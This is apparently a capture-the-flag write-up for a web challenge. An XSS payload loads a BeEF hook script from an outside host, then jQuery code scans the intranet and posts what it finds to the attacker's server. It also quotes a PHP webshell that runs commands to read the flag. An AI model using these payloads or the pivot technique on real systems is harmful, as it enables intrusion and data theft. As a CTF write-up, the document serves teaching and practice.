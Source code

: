 # Writeup for QAQ (WEB) (350)

> Solves: 16
> 
> web
> 
> http://104.199.132.251:80
> 
> hint1: What else can XSS do? Just steal cookies? Secret in intranet，hack harder guys!
> 
> hint2: CORS headers
  
We are given a following web interface:

![Screenshot_1.png](Screenshot_1.png)

After submitting form, we see a summary of submission, so we can test XSS prevention bypass. 
(Note, that this alert was not in XSS payload, it was just an element of response):

![Screenshot_2.png](Screenshot_2.png)

We crafter the following xss payload: 

```
<iframe onload='
    var sc   = document.createElement("scr" + "ipt");
    sc.type  = "text/javascr" + "ipt";
    sc.src   = "http://1.2.3.4/js/hook.js";
    document.body.appendChild(sc);
    '
/>
```

It successfully appends the code to body tag:
```
<script type="text/javascript" src="http://1.2.3.4/js/hook.js"></script>
```
allowing us to execute any unrestricted javascript code, from our external server.
First we confirmed, that the file has been downloaded (read) by admin (probably BOT).

As the attached file has been BeEF (The Browser Exploitation Framework Project) [hook.js](hook.js), we spend some time playing with BeEF itself. It turned out, that the bot visits the site and is disconnected after a short time (probably 5 seconds).

Hint `Secret in intranet` prompted us to scan hosts in BeEF, so we got:

```
127.0.0.1       localhost       Linux
172.17.0.1                      Linux 
192.168.1.3                     Linux
```

After that, we checked IP nearest to found hosts:

(Note, that the comment payload was still the same, we modified only code in our server's hook.js)
```
(LONG INLINE JQUERY SOURCE)

jQuery.get( "http://192.168.1.1", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "192.168.1.1"} );
});
jQuery.get( "http://192.168.1.2", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "192.168.1.2"} );
});
jQuery.get( "http://192.168.1.3", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "192.168.1.3"} );
});
jQuery.get( "http://192.168.1.4", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "192.168.1.4"} );
});
jQuery.get( "http://192.168.1.5", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "192.168.1.5"} );
});
jQuery.get( "http://172.17.0.1", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "172.17.0.1"} );
});
jQuery.get( "http://172.17.0.2", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "172.17.0.2"} );
});
jQuery.get( "http://172.17.0.3", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "172.17.0.3"} );
});
jQuery.get( "http://172.17.0.4", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "172.17.0.4"} );
});
jQuery.get( "http://172.17.0.5", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "172.17.0.5"} );
});
```

Source of server observer code (http://1.2.3.4/app_dev.php):
```
<?php

$file = fopen("file.txt", "a");
fwrite($file, "\n\n\n". $_POST['x']);
fclose($myfile);
```


We had response from `172.17.0.2` that looked promising. Next step was to check, what has been there.

Another version of hook.js:
```
(LONG INLINE JQUERY SOURCE)

jQuery.get( "http://172.17.0.2", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: data} );
});
```

Gave us the response:

```
<html>
<body>
=.=
webdog
webshell
=.=
<!--
header("Access-Control-Allow-Origin: *");

$ztz= 'system';
ob_start($ztz);
echo $_GET[c];
ob_end_flush();

or

$ztz = new ReflectionFunction("system");
echo $ztz->invokeArgs(array("$_GET[c]"));
-->
</body>
</html>
```

Yup- turned out, that we had php shell from `$_GET[c]`.

Yet another version of hook.js:
```
(LONG INLINE JQUERY SOURCE)

jQuery.get( "http://172.17.0.2/?c=ls", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: data} );
});
```

gave us response:
```
fl4g
index.php
index.php
```

And finally:
```
(LONG INLINE JQUERY SOURCE)

jQuery.get( "http://172.17.0.2/?c=cat fl4g", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: data} );
});
```


returned the flag.